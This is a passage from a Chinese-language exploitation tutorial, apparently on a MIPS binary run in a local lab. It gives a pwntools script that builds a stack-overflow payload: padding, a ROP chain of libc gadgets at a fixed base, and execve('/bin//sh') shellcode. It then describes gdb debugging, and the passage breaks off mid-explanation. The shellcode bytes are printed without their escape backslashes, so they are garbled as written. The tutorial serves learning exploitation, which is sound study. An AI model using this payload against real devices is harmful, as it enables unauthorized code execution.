 8)我们将上面的一系列内容编写成contnt.py，如下：

```
from pwn import *
context.endian = "little"
context.arch = "mips"
f=open("content1","wb")
shellcode = ""
shellcode += "xffxffx06x28"  # slti $a2, $zero, -1
shellcode += "x62x69x0fx3c"  # lui $t7, 0x6962
shellcode += "x2fx2fxefx35"  # ori $t7, $t7, 0x2f2f
shellcode += "xf4xffxafxaf"  # sw $t7, -0xc($sp)
shellcode+= "x73x68x0ex3c"  # lui $t6, 0x6873
shellcode += "x6ex2fxcex35"  # ori $t6, $t6, 0x2f6e
shellcode += "xf8xffxaexaf"  # sw $t6, -8($sp)
shellcode += "xfcxffxa0xaf"  # sw $zero, -4($sp)
shellcode += "xf4xffxa4x27"  # addiu $a0, $sp, -0xc
shellcode += "xffxffx05x28"  # slti $a1, $zero, -1
shellcode += "xabx0fx02x24"  # addiu;$v0, $zero, 0xfab
shellcode += "x0cx01x01x01"  # syscall 0x40404
gadget0 = 0x2fb10
gadget1 = 0x6A50
gadget2 = 0x20F1C 
gadget3 = 0x16DD0
gadget4 = 0x214A0 
libc_base = 0x766e5000
sleep_offset = 0x2F2B0
data = "a"*508
data += p32(gadget1+libc_base)
data += "b"*0x58
data += "bbbb" #s0
data += p32(gadget2+libc_base) #s1
data += p32(sleep_offset+libc_base) #s2
data += p32(gadget0+libc_base)
data +="c"*0x18
data += p32(gadget4+libc_base) #s0
data += "cccc" #s1
data += "cccc" #s2
data += p32(gadget3+libc_base) #ra
data += "d"*0x18
data += shellcode
f.write(data)
f.close()
```

然后我们python content1.py，生成一个content1，然后运行./local1.sh,另外一个窗口运行gdb调试，然后下断点`b *0x767064A0`，运行下去，可以看到寄存器`$t9`已经变成了shellcode的位置，接下来就是跳转到那边，我们看一下内存中的内容，看到如下图内容：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t019c7f0f2de50e09eb.png)

也就是第一条汇编指令不是我们的汇编指令，后面一样，尽管执行成功了，但是心里不爽，看大佬们的内容，可以在前面加几句无关紧要的东西，使其正确跳转过来，就像nop一样(这个里面nop不行的原因是其机器码是x00x00x00x00)。在这个里面增加的指令是`xor $t0,$t0,$t0`，在IDA中用keypatch看一下机起码为下图内容：
